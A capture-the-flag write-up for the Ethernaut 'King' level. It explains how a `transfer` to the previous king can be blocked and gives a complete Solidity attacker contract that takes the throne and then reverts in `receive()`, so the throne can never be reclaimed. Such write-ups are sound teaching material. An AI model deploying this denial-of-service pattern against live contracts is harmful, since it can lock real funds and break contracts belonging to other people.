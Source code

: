 # Ethernaut Level 09 - King Challenge

## Objective

The goal of the Ethernaut Level 09 - King challenge is to break the game. The game is simple: whoever sends an amount of ether that is larger than the current prize becomes the new king. When a new king arises, the overthrown king gets paid the new prize. The challenge is to prevent the level from reclaiming the kingship after you've become the king.

## Vulnerability

The vulnerability is in the function that transfers funds to the previous king. This triggers a fallback function in another contract. If we revert this fallback function, it prevents a new king from being set.

```solidity
receive() external payable {
        require(msg.value >= prize || msg.sender == owner);

        // Transfers the value sent to the current king. If the king is a contract,
        // this would call the contract's `receive` or `fallback` function
        payable(king).transfer(msg.value);

        king = msg.sender;
        prize = msg.value;
    }
```

## Exploit

The exploit is to create a contract that sends the minimum ether to the King contract, thus becoming the new king. When the level tries to reclaim the kingship by sending an equivalent amount of prize money to the contract, it reaches the `transfer` function. The function tries to send the amount to the previous king, which is my contract. However, my contract won't implement a `fallback()` or `receive()` function to handle ether transfer. As a result, the transfer call will revert, reverting the whole transaction and preventing the level from becoming the new king.. this can be also solved by reverting in `receive()` or `fallback()`

Here is the contract that was used for the attack:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.7.3;

interface IKing {
    function changeOwner(address _owner) external;
}

contract KingAttacker {
    IKing public challenge;

    constructor(address challengeAddress) {
        challenge = IKing(challengeAddress);
    }

    function attack() external payable {
        require(msg.value == 1 ether, "please send exactly 1 ether");
        // claim throne
        // use call here instead of challenge.transfer because transfer
        // has a gas limit and runs out of gas
        (bool success, ) = payable(address(challenge)).call{value: msg.value}(
            ""
        );
        require(success, "External call failed");
    }

    receive() external payable {
        require(false, "cannot claim my throne!");
    }

    // fallback() external {
    //     revert();
    // }
}
```
